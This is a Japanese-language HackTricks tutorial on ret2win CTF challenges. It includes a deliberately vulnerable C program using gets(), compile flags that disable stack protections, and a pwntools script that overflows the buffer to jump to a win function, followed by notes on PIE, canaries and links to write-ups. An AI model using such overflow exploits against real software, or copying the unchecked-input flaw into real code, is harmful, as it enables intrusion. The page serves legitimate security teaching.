 # Ret2win

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

**Ret2win** チャレンジは、特に **バイナリエクスプロイテーション** を含むタスクにおいて、**Capture The Flag (CTF)** コンペティションで人気のあるカテゴリーです。目的は、特定のバイナリ内で未呼び出しの関数を実行するために、与えられたバイナリの脆弱性を悪用することです。この関数は通常、`win`、`flag` などの名前が付けられています。この関数が実行されると、通常はフラグや成功メッセージが出力されます。チャレンジは通常、スタック上の **リターンアドレス** を上書きして、実行フローを目的の関数に転送することを含みます。以下は、例を交えた詳細な説明です。

### Cの例

脆弱性を持つシンプルなCプログラムと、呼び出すことを意図している `win` 関数を考えてみましょう:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
このプログラムをスタック保護なしで、**ASLR** を無効にしてコンパイルするには、次のコマンドを使用できます：
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: プログラムを32ビットバイナリとしてコンパイルします（これはオプションですが、CTFチャレンジでは一般的です）。
* `-fno-stack-protector`: スタックオーバーフローに対する保護を無効にします。
* `-z execstack`: スタック上のコードの実行を許可します。
* `-no-pie`: 位置独立実行可能ファイルを無効にして、`win`関数のアドレスが変更されないようにします。
* `-o vulnerable`: 出力ファイルの名前を`vulnerable`にします。

### Python Exploit using Pwntools

エクスプロイトには、エクスプロイトを書くための強力なCTFフレームワークである**pwntools**を使用します。エクスプロイトスクリプトは、バッファをオーバーフローさせ、戻りアドレスを`win`関数のアドレスで上書きするペイロードを作成します。
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
`win`関数のアドレスを見つけるには、**gdb**、**objdump**、またはバイナリファイルを検査できる他のツールを使用できます。例えば、`objdump`を使用して、次のようにできます:
```sh
objdump -d vulnerable | grep win
```
このコマンドは、`win` 関数のアセンブリを表示し、その開始アドレスを含みます。&#x20;

Python スクリプトは、`vulnerable_function` によって処理されると、バッファをオーバーフローさせ、スタック上のリターンアドレスを `win` のアドレスで上書きするように慎重に作成されたメッセージを送信します。`vulnerable_function` が戻ると、`main` に戻るのではなく、`win` にジャンプし、メッセージが表示されます。

## 保護

* [**PIE**](../../common-binary-protections-and-bypasses/pie/) **は無効にするべきです**。そうしないと、アドレスが実行ごとに信頼できなくなり、関数が格納されるアドレスが常に同じではなくなり、`win` 関数がどこにロードされているかを把握するために何らかの leak が必要になります。オーバーフローを引き起こす関数が `read` やそれに類似するものである場合、リターンアドレスを `win` 関数に変更するために 1 または 2 バイトの **部分上書き** を行うことができます。ASLR の動作のため、最後の 3 つの16進数ニブルはランダム化されないため、正しいリターンアドレスを取得する確率は **1/16**（1 ニブル）です。
* [**スタックカナリア**](../../common-binary-protections-and-bypasses/stack-canaries/) も無効にするべきです。そうしないと、侵害された EIP リターンアドレスは決して追跡されません。

## その他の例と参考文献

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32ビット、ASLRなし
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* ASLRありの64ビット、バイナリアドレスの leak あり
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64ビット、ASLRなし
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32ビット、ASLRなし、ダブル小オーバーフロー、最初にスタックをオーバーフローさせ、2回目のオーバーフローのサイズを拡大
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32ビット、relro、カナリアなし、nx、pieなし、`fflush` のアドレスを `win` 関数（ret2win）で上書きするフォーマット文字列
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html)
* 32ビット、nx、他に何もなし、`win` 関数を呼び出すための EIP の部分上書き（1バイト）
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html)
* 32ビット、nx、他に何もなし、`win` 関数を呼び出すための EIP の部分上書き（1バイト）
* [https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html](https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html)
* プログラムは、入力のサイズをチェックするために数値の最後のバイトのみを検証しているため、最後のバイトが許可された範囲内であれば、任意のサイズを追加することが可能です。その後、入力は ret2win を利用したバッファオーバーフローを引き起こします。
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64ビット、relro、カナリアなし、nx、pie。`win` 関数（ret2win）を呼び出すための部分上書き
* [https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/](https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/)
* arm64、PIE、`win` 関数は実際には 2 つの関数であるため、2 つの関数を呼び出す ROP ガジェット
* [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/)
* ARM64、オフバイワンで `win` 関数を呼び出す

## ARM64 の例

{% content-ref url="ret2win-arm64.md" %}
[ret2win-arm64.md](ret2win-arm64.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS ハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP ハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks をサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**Telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を送信してください。**

</details>
{% endhint %}
